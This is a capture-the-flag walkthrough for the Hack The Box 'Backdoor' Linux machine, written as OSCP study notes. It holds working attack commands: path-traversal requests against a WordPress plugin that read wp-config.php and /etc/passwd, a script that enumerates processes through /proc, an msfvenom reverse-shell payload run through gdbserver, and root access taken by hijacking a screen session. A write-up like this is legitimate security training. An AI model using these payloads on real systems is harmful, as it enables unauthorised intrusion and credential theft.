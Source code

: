 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon

### Nmap Scans
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.125
nmap -p 22,80,1337 -sCV -oA scans/nmap-tcpscripts 10.10.11.125
```

### Manual Checks
```bash
nc -v 10.10.11.125 1337
curl 10.10.11.125:1337
```

---

## 🌐 [Website & WordPress Recon](HTTP)

### /etc/hosts Update
```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### WPScan
```bash
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
```

### Feroxbuster (Plugin Discovery)
```bash
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt
```

---

## 🧪 Shell as User

### Ebook Download Plugin Exploit
```bash
# Check plugin version
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

# Exploit LFI to read wp-config
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Read /etc/passwd
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Process Enumeration via /proc
```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
```

### Bash Script to Find gdbserver
```bash
#!/bin/bash
for i in $(seq 1 50000); do
    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done
```

---

## 🧨 Exploit gdbserver (User Shell)

### Create Reverse Shell Payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
```

### GDB Remote Exploit
```bash
gdb -q rev.elf
(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put rev.elf /dev/shm/rev
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
```

### Catch the Shell
```bash
nc -lnvp 443
```

### Upgrade the Shell
```bash
script /dev/null -c bash
# then Ctrl+Z
stty raw -echo; fg
# then type
reset
# when prompted:
screen
```

---

## 💣 Metasploit Method (Alternative)

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
run
```

---

## ⚡ Shell as Root

### Spot screen Process
```bash
ps auxww | grep screen
```

### Connect to Root's Screen Session
```bash
screen -ls root/
TERM=screen screen -x root/[session_id]
# OR
TERM=screen screen -x root/root
```

---

## 🏁 Flags
```bash
cat /home/user/user.txt
cat /root/root.txt
```